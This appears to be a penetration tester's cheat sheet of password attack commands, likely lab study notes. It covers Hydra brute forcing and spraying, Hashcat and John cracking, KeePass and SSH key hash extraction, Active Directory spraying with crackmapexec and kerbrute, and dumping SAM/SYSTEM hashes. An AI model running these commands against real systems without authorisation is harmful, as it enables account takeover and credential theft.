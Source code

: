 ## Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

## nmap

The `passwords.txt` argument can be ommitted, if it is then a default password database will be used. It will begin with checking if the password is the same as the username, which is a nice touch that's easily forgotten about otherwise.
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt <target IP>
```

## Hash Cracking

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.

## Active Directory Password Cracking

Back to directly targeting an authentication interface, now in the context of AD. For all of the following it is well worth checking the password policy with `net accounts` in order to be sure that we don't immediately get locked out of every account we hit. All of the following assume that we have obtained a plaintext password by some other means, but don't yet have a matching username.

### Spray-Passwords.ps1
Querying LDAP and ADSI with user creds. This will need to be run on the target machine, however a benefit of this is that it will enumerate which users to hit for us.
```powershell
.\Spray-Passwords.ps1 -Pass 'bigboi123!' -Admin
```
```powershell
.\Spray-Passwords.ps1 -File passwords.txt -Admin
```

### crackmapexec
Another approach to password spraying against a Windows machine is available to us courtesy of `crackmapexec`. To target SMB shares with a username list and a known/candidate password (nb. We should take care to check the domain password policy with `net accounts` before we start blasting):
```bash
crackmapexec smb 192.168.12.34 -u users.txt -p '123456' -d corp.com --continue-on-success
```

### kerbrute
This time our brute forcing is aimed at obtaining a Kerberos Ticket Granting Ticket (TGT):
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "password123"
```

### SAM/SYSTEM
If we have managed to find a backup of an old Windows system then we may have unprivileged access to a SYSTEM and SAM file, containing secrets and credentials from that old system. Some of the hashes may still be relevant. Get the `SAM` and `SYSTEM` files back to Kali and parse like so:
```bash
impacket-secretsdump -sam SAM -system SYSTEM local > old-hashes.txt
```